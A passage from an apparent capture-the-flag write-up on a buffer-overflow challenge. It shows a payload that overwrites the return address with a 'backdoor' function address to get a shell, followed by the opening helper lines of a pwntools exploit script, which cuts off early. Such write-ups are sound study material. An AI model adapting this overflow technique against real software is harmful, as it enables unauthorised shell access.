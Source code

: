 ```plain
backdoor=0x0400844
pl="a"*0x44+p32(backdoor)
```

[![](assets/1705903019-e911bc120d5718c727a22d628a0b0efa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120191957-d79509fc-b785-1.png)  
getshell

[![](assets/1705903019-c0a771a35e091fc7eb8c55571d9aa4bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192008-de6260ae-b785-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
```